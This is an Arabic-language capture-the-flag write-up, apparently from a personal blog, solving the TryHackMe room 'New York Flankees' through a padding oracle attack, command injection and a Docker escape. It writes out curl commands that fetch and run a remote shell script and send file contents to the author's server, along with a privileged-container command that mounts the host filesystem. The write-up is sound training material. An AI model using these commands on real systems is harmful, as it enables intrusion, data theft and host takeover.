 ```yaml
---
title: حل غرفة newyorkflankees
parent: THM 
layout: home
---
```

# المقدمة

بسم الله الرحمن الرحيم، راح أشارككم طريقة تفكيري وحلي لغرفة new york flankees الموجودة على موقع [tryhackme](https://tryhackme.com). ملاحظة مهمة: إذا كنت تبغى تستفيد وماتضيع وقتك على الفاضي، لاتشوف حل أي تحدي إلا إذا بذلت كامل جهدك في حله، ولا تشوف حل التحدي بالكامل، لكن شوف فقط الجزئية اللي علقت عندها.

## فحص المداخل

طبيعي في أي تحدي CTF أول شيء تسويه إنك تفحص المداخل عشان تاخذ نظرة عامة عن الصندوق (virtual mechine)، راح استخدم rustscan عشانه سريع، غالبا ماراح تستخدمه على أهداف حقيقية عشان ماتبلع باند 

```bash
╭─ ඞ ~/thm ············································································
╰─λ rustscan -a 10.10.233.199
Open 10.10.233.199:22
Open 10.10.233.199:8080
```

ممتاز!، نلاحظ عندنا مدخلين (ssh-22,http-8080) خلينا ندخل موقع الويب ونشوف إيش راح نحصل.

## فحص الموقع

### الصفحة الرئيسية Blog

أول ما نخش الموقع راح نلاحظ كذا حاجة
![img](imgs/Screenshot%20from%202024-07-16%2020-52-11.png)
في الأعلى راح نشوف ثلاث أزرار، خلينا نشوف السورس كود


![img](imgs/Screenshot%20from%202024-07-16%2021-51-30.png)

إذا أنت مافهمت الكود الموجود هنا، أنصحك تاخذ كورس جافاسكربت أو كورس تطوير مواقع... راح يساعدك كثير صدقني. عموما، الكود الموجود أسفل الصفحة الرئيسية قاعد يتأكد ما إذا كان الشخص اللي يشوف الصفحة عنده كوكيز اسمها loggedin، إذا كان عنده هذي الكوكيز راح يتغير النص اللي في الزر في الأعلى يمين إلى DEBUG وراح يوجهك على صفحة ثانية exec.html أما إذا ماكانت الكوكيز موجودة راح يوجهك على صفحة تسجيل الدخول.

### الصفحة التجريبية stefan test

خلينا نروح على السورس كود على طول،
![img](imgs/Screenshot%20from%202024-07-16%2022-05-27.png)

هنا عندنا شي مثير، الكود ذا راح يرسل طلب للنقطة api/debug/xxxx/ مكان الإكسات نلاحظ عندنا نص طويل، إذا قرأنا التعليقات اللي كاتبها راح نعرف أن هذا النص عبارة عن شفرة، السؤال هو إيش هي هذي الشفرة وكيف نفكها؟ تلاحظ من التعليق في سطر 69 أن هذا النص حمولة AES/CBC/PKCS إذا بحثت في قوقل ممكن يعدي عليك اسم oracle padding attack وهذا يا عزيزي ما تحتاج أن تبحث عنه وتفهمه عشان تفك التشفير، في الصفحة الرئيسية تشوف تلميح من الصورة (مكتوب فيها oracel)، هل فيه سكربتات جاهزة تأتمت (automate) هذه الثغرة؟.

### مابعد فك التشفير

بعد مايقارب 6 ساعات من البحث قدرت أفك التشفير، أولا: الحمولة المشفرة عبارة عن اسم مستخدم وكلمة سر. ثانيا: محتويات الحمولة هي جواب السؤال الأول. ملاحظة- فك الشفرة راح ياخذ وقت، لأنك راح ترسل 256 طلب للسيرفر عشان بايت واحد

![img](imgs/Screenshot%20from%202024-07-17%2015-56-44.png)

### التحكم في السيرفر

بعد ما تطلع كلمة السر واسم المستخدم، سجل دخول وراح تاخذ العلم الأول وراح تحصل حقل يمديك من خلاله تنفذ أوامر على السيرفر

![img](imgs/Screenshot%20from%202024-07-16%2020-52-11.png)

أنا قعدت تقريبا 6 ساعات ثانية أحاول أحصل reverse shell لكن الطرق التقليدية ما نفعت، لاحظت إني أقدر أرسل طلب من الهدف إلى السيرفر حقي من خلال curl.

```bash
curl http://my_server/
```

حاولت إني أجرب الطرق التقليدية باستعمال  curl لكن أيضا بلا جدوى

```bash
curl http://my_server/shell.sh | bash
```
جاءت في بالي فكرة رهيبة، وهي إني أستخرج معلومات من السيرفر وأرسلها على السيرفر حقي باستخدام curl لكن أيضا بلا جدوى والسبب هو إني ما أعرف اسم أي ملف ، سوي ملف تجريبي وجرب عليه الأمر التالي عشان تفهم فكرتي

```bash
cat secret.txt | xargs -I input curl http://my_server/input
```
```bash
╭─ ඞ ~/thm ···························································································
╰─λ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.29.36 - - [17/Jul/2024 23:42:38] code 404, message File not found
10.6.29.36 - - [17/Jul/2024 23:42:38] "GET /you_see?,secret HTTP/1.1" 404 -

```
لكن بلا جدوى.
بعد تعديلات كثيرة، طلع الحل تافه جدا، السيرفر لسبب ما، مايستقبل الأنبوب | أو مايعتبره موجود، فالطريقة عشان تتفادى هذا العائق هي إنك تخزن الملف حق الحمولة في السيرفر بعدين تنفذ أمر باش على الحمولة

```bash
curl http://my_server/shell.sh --output (DO NOT USE '>') shell.sh
```
```bash
bash shell.sh
```

### العلم الثالث والرابع

الآن بعد ما صار عندنا "صدفة" في السيرفر، راح نبدأ رحلة البحث عن العلمين الأخيرة, ونلاحظ إننا الروت!

```bash
root@02e849f307cc:/# whoami
root
```
بما إننا في docker container راح نجرب الأمر التالي ونشوف النتيجة
```bash
root@02e849f307cc:/# env
HOSTNAME=02e849f307cc
JAVA_HOME=/usr/local/openjdk-11
PWD=/
CTF_USERNAME=XXXXXXX
HOME=/root
LANG=C.UTF-8
CTF_DOCKER_FLAG=XXXXXXXX العلم الثالث
CTF_RESOURCES=/app/src/resources
CTF_ENCRYPTION_IV=XXXXXXXXX
SHLVL=2
CTF_ENCRYPTION_KEY=XXXXXXXXXX
PATH=/usr/local/openjdk-11/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
CTF_ADMIN_PANEL_FLAG=XXXXXXXXXX
CTF_PASSWORD=XXXXXXXXXX
JAVA_VERSION=11.0.16
_=/usr/bin/env
```
ممتاز، باقي العلم الرابع وأروح أرقد، الصراحة ماعندي خلفية قوية عن "حاويات" دوكر لكن اللي أعرفه أن في بعض الأحيان يمديك تخرج منها، وهذا المطلوب منك يا عزيزي. خلينا نشوف إذا فيه حاويات ثانية
```bash
root@02e849f307cc:/# docker ps
CONTAINER ID   IMAGE                    COMMAND                  CREATED          STATUS          PORTS                                       NAMES
02e849f307cc   padding-oracle-app_web   "java -jar /app/ktor…"   2 months ago     Up 51 minutes   0.0.0.0:8080->8080/tcp, :::8080->8080/tcp   padding-oracle-app_web_1
```
مدام قدرنا نشوف الحاويات معناته يمدينا نسوي حاوية، إيش رأيك نسوي حاوية بكامل الصلاحيات؟. لكن قبل ما نسوي حاوية جديدة، خلينا نشوف إيش الصور المحملة عندنا (راح نستخدم الصور المحلية عشان نسوي حاوية جديدة عشان مافي نت في السيرفر).

```bash
root@02e849f307cc:/# docker images
REPOSITORY               TAG       IMAGE ID       CREATED         SIZE
padding-oracle-app_web   latest    cd6261dd9dda   2 months ago    1.01GB
<none>                   <none>    4187efabd0a5   2 months ago    704MB
gradle                   7-jdk11   d5954e1d9fa4   2 months ago    687MB
openjdk                  11        47a932d998b7   23 months ago   654MB
```
الآن نسوي الحاوية حقتنا.
```bash
docker -d -v /:/host --name escape --privileged --cap-add=ALL --pid=host --userns=host gradle:7-jdk11 sleep 3600
```
بعد ما سوينا الحاوية خلينا نشبك عليها ونجيب العلم الرابع عشان برقد.
```bash
docker exec -i (DO NOT USE -it) escape bash 
```
راح تلاحظ أن التيرمينال ماتطبع لك شي في البداية، معليك. الآن يا حبيبي مهمتك تطلع العلم اللي اسمه flag.txt أنصحك تشوف [هذا الفيديو](https://youtu.be/ZbHVRoWEwA8?si=v-xLFitDKETPSWqY) عشان تعرف كيف تطلعه.

# الخاتمة
الحمد لله على منه وإحسانه، الصراحة استمعت جدا وأنا أحل هذا التحدي وقعدت فوق ال 10 ساعات فيه مع إنه بعد ما حليته أحسه بسيط، إذا كان عندك اقتراح أو تعديل تواصل معي على [تويتر](https://x.com/VulnerK0) سويته جديد عشان المدونة ذي.<br> سبحان ربك رب العزة عما يصفون، وسلام على المرسلين، والحمد لله رب العالمين.
